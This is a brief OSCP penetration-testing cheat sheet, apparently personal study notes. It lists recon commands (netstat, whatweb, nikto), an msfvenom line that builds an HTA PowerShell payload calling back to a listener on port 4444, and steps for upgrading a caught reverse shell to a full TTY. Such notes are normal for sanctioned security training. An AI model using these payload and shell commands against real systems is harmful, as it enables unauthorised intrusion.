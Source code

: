 # oscp
netstat -ntl
whatweb url
whatweb url -v 
nikto -host=
# msfvenom -p  LHOST=IP LPORT=4444 -f hta-psh -o 
# sudo  apt install pure-ftpd
# python -c 'import pty;pty.spawn("/bin/bash")'
## stty raw -echo 
## fg
